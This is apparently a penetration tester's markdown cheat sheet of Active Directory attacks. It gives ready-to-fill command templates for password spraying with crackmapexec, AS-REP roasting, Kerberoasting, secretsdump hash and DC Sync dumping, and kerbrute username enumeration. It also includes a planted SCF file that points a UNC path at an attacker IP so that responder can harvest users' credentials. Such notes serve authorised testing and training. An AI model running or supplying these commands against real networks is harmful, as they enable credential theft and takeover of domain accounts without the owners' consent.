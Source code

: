 ## Miscellaneous Attacks In No Particular Order

*+Password Spraying With CrackMapExec**

When You have a working password and a list of userames, or a working username and a list of passwords, ``crackmapexec`` makes testing your credentials trivial. ``crackmapexec`` has a few protocols available. The one's that I find the most use out of is ``smb``, ``ldap``, and ``winrm``.
```bash
# Test 1 Password with a list of Usernames
crackmapexec <PROTOCOL> <IP> -u <USERLIST> -p '<PASS>' --continue-on-success

# Test 1 Username with a list of Passwords
crackmapexec <PROTOCOL> <IP> -u '<USER>' -p <PASSLIST> --continue-on-success

# Authentication with an NT hash
crackmapexec <PROTOCOL> <IP> -u <USERLIST> -H '<NT_HASH>' --continue-on-success 
```

## Windows / Active Directory Attacks

**AS-REP Roasting**

AS-REP roasting is a technique that allows retrieving password hashes for users that have don't require Kerberos preauthentication. ``impacket`` has a utility that makes this trivial for us. I could only do a bad job explaining this attack, so I've linked much better resources below. It is important to note that this is not found often, if at all, in real world engagements.

```bash
python3 GetNPUsers.py <DOMAIN>/ -dc-ip <IP> -no-pass -usersfile <USERLIST>
```

- [Roasting AS-REPS](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
- [AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)

**Kerberoasting**

Kerberoasting is a method for extracting service account credentials from Active Directory as a notmal user. Again, [AD Security](https://adsecurity.org/) has an insane amount of content that goes in depth to what this is, how it works, and when to use it. I won't even bother going into the detail's of the attack here, but articles from them are linked below.

``impacket`` has a utility that makes this trivial for us, ``GetUserSPNs.py``.


```bash
# Normal Authentication
python3 GetUserSPNs.py -request -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -save -outputfile hashes.txt

# Authentication with NT and LM Hashes
python3 GetUserSPNs.py -request -dc-ip <IP> -hashes <LM_HASH>:<NT_HASH> <DOMAIN>/<USER> -save -outputfile hashes.txt
```

- [Cracking Kerberos TGS Tickets Using Kerberoast](https://adsecurity.org/?p=2293)
- [Dectecting Kerboasting Activity](https://adsecurity.org/?p=3458)
- [Kerberos Overview](https://adsecurity.org/?p=227)

**SCF File Attack**

An SCF *(Shell Command File)* can be used to access an attacker's UNC path. Planted inside a nwtwork share, when a user opens the ``scf`` file, Windows automatically authenicates to the server the UNC is pointing to, using the current user's credentials. We can use ``responder`` or somthing similar to harvest these credentials and crack them offline.

1) Inside a ``.scf`` file put:

```
[Shell]
Command=2
IconFile=\\<YOUR IP>\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

2) Run [responder](https://github.com/lgandx/Responder) locally

```bash
responder -I <NETWORK INTERFACE>
```

3) Put your ``.scf`` file on a share and wait for a user to open it.

- [SMB Share – SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
- [Stealing Windows Credentials Using Google Chrome](https://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf)

**Secrets/Credentials Dumping**

The impacket script ``secretsdump.py`` can be used to extract credentials and secrets from a system. There are 2 main use cases:
- Dump NTLM hash of local users (remote SAM dump)
- Extract Domain Credentials via *DC Sync*

There is a lot that can be explained on *how* this works, and  *where* this works; but this is mainly so I can remember tool syntax so I won't bother with going into those details.

```bash
python3 secretsdump.py <DOMAIN>/<USER>:<PASS>@<IP> -outputfile secretsdump
```

- [DC Sync Attacks With Secretsdump](https://www.youtube.com/watch?v=QfyZQDyeXjQ)
- [Secretsdump Demystified](https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b)

**Username Enumeration**

Enumerate valid usernames using ``kerbrute``. This requires Kerberos to the open.

```bash
kerbrute userenum -d <DOMAIN> --dc <IP> <USERLIST>
```
